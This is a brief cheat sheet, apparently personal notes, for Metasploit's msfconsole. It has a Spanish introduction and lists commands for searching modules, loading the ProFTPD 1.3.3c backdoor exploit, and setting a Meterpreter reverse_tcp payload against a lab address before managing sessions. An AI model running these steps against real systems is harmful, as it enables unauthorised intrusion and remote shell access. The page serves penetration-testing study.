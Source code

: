 # MSF Console

`msfconsole` es la interfaz más utilizada y *principal*, así como la más completa, del Framework de Metasploit: básicamente una consola interactiva (CLI) que permite realizar múltiples tareas como buscar y cargar módulos, configurar opciones, ejecutar exploits/auxiliares, gestionar la base de datos, manejar sesiones y automatizar tareas. 

---
# Useful commands<

```bash
 # Initialize console
 msfconsole
 
 # Search a module
 search name:apache type:exploit
 
 # Select a module
 use exploit/multi/handler
 use exploit/unix/ftp/proftpd_133c_backdoor
 
 # See required options
 show options
 
 # See script information
 info
 
 # See script advanced options
 show advanced options
 
 # Set global vars
 setg NAME value
 
 # Set options
 set RHOST 10.10.10.5
 set RPORT 21
 set PAYLOAD linux/x86/meterpreter/reverse_tcp
 set LHOST 10.0.0.5
 
 # Execute exploit
 run
 exploit -j # In background
 
 # Show sessions
 sessions -l
 sessions -i 1
 
 # Export script resoure 
 resorce /ruta/script.rc
 ```